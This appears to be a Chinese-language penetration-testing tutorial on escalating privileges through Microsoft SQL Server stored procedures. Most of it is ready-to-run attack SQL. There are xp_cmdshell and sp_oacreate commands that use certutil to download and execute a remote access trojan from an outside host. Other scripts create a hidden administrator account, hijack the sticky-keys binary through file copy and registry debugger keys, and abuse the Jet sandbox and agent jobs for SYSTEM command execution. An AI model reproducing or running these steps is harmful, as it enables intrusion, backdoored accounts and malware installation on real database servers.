

# 0x00 xp_cmdshell

上一章备份中已经提到这个函数，在我们遇到站库分离的时候，没办法写webshell，后台也没办法拿下shell的情况下不妨试试用xp_cmdshell下载我们的RAT直接拿下数据库
下载文件我们有几个常用的思路如下

1. certutil

2. vbs

3. bitsadmin

4. powershell

5. ftp

这里我就用Cobalt Strike 不会的朋友可以看看我前面写的CS教程,他来搞这几个过程比较方便，我这里就以certutil为例，其他的用法在网上都很多的。

上传到一个可读可写的目录

```
exec master.dbo.xp_cmdshell 'cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe';

exec master.dbo.xp_cmdshell 'cd c:\www & file.exe';

```


顺道还用cs自带的ms14-058提权了一下


# 0x01 sp_oacreate

当xp_cmdshell 被删除可以使用这个来提权试试,恢复sp_oacreate

```
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'Ole Automation Procedures', 1;  
RECONFIGURE WITH OVERRIDE;  
EXEC sp_configure 'show advanced options', 0;

```

sp_oacreate是一个非常危险的存储过程可以删除、复制、移动文件 还能配合sp_oamethod 来写文件执行cmd

在以前的系统有这几种用法 

1. 调用cmd 来执行命令 

```
wscript.shell执行命令

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c xxx'


Shell.Application执行命令
declare @o int
exec sp_oacreate 'Shell.Application', @o out
exec sp_oamethod @o, 'ShellExecute',null, 'cmd.exe','cmd /c net user >c:\test.txt','c:\windows\system32','','1';

```

2. 写入启动项

```
declare @sp_passwordxieo int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'd:\RECYCLER\1.vbs', 1
exec @ret = sp_oamethod @f, 'writeline', NULL,'set wsnetwork=CreateObject("WSCRIPT.NETWORK")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'os="WinNT://"&wsnetwork.ComputerName'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set ob=GetObject(os)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set oe=GetObject(os&"/Administrators,group")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set od=ob.Create("user","123$")'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetPassword "123"'
exec @ret = sp_oamethod @f, 'writeline', NULL,'od.SetInfo'
exec @ret = sp_oamethod @f, 'writeline', NULL,'Set of=GetObject(os&"/123$",user)'
exec @ret = sp_oamethod @f, 'writeline', NULL,'oe.add os&"/123$"';

```

3. 粘贴键替换

```
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\explorer.exe' ,'c:\windows\system32\sethc.exe';
declare @o int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'copyfile',null,'c:\windows\system32\sethc.exe' ,'c:\windows\system32\dllcache\sethc.exe';

```

大家可以灵活运用，这里也可以这样玩，把他写成vbs或者其他的来下载文件 ，为什么不直接调用cmd来下载，再2008系统上我是不成功的，但是sp_oacreate可以启动这个文件，所以换个思路

```
declare @sp_passwordxieo int, @f int, @t int, @ret int;
exec sp_oacreate 'scripting.filesystemobject', @sp_passwordxieo out;
exec sp_oamethod @sp_passwordxieo, 'createtextfile', @f out, 'c:\www\1.bat', 1;
exec @ret = sp_oamethod @f, 'writeline', NULL,'@echo off';
exec @ret = sp_oamethod @f, 'writeline', NULL,'start cmd /k "cd c:\www & certutil -urlcache -split -f http://192.168.130.142:80/download/file.exe"';


declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\1.bat'

declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\www\file.exe'

```




当然这里只是一种思路，你完全可以用vbs来下载什么的


# 0x02 沙盒

由于环境问题我这里就不演示了

```
1. exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0;

2. exec master.dbo.xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines', 'SandBoxMode'

3. Select * From OpenRowSet('Microsoft.Jet.OLEDB.4.0',';Databasec:\windows\system32\ias\ias.mdb','select shell( net user itpro gmasfm /add )');

```

引用前辈们的话

>1，Access可以调用VBS的函数，以System权限执行任意命令
>2，Access执行这个命令是有条件的，需要一个开关被打开
>3，这个开关在注册表里
>4，SA是有权限写注册表的
>5，用SA写注册表的权限打开那个开关
>6，调用Access里的执行命令方法，以system权限执行任意命令执行SQL命令，执行了以下命令


# 0x03 xp_regwrite

修改注册表 来劫持粘贴键 当然在2008数据库是不成立的 因为默认权限很低

```

exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Image File Execution
Options\sethc.EXE','Debugger','REG_SZ','C:\WINDOWS\explorer.exe';

```


# 0x04 pulic

这种pulic提权 实际情况也很少吧,也是提一下了

```
USE msdb
EXEC sp_add_job @job_name = 'GetSystemOnSQL', www.2cto.com
@enabled = 1,
@description = 'This will give a low privileged user access to
xp_cmdshell',
@delete_level = 1
EXEC sp_add_jobstep @job_name = 'GetSystemOnSQL',
@step_name = 'Exec my sql',
@subsystem = 'TSQL',
@command = 'exec master..xp_execresultset N''select ''''exec
master..xp_cmdshell "dir > c:\agent-job-results.txt"'''''',N''Master'''
EXEC sp_add_jobserver @job_name = 'GetSystemOnSQL',
@server_name = 'SERVER_NAME'
EXEC sp_start_job @job_name = 'GetSystemOnSQL'

```


mssql众多的储存过程是我们利用的关键 当然还有很多可能没被提出，需要自己的发现，比如在遇到iis6的拿不了shell还有个上传可以跳目录，不妨试试xp_create_subdir
建立个畸形目录解析。

# 0x05 文末

具体这些怎么使用，看具体环境吧

#### 本文如有错误，请及时提醒，避免误导他人


BY 404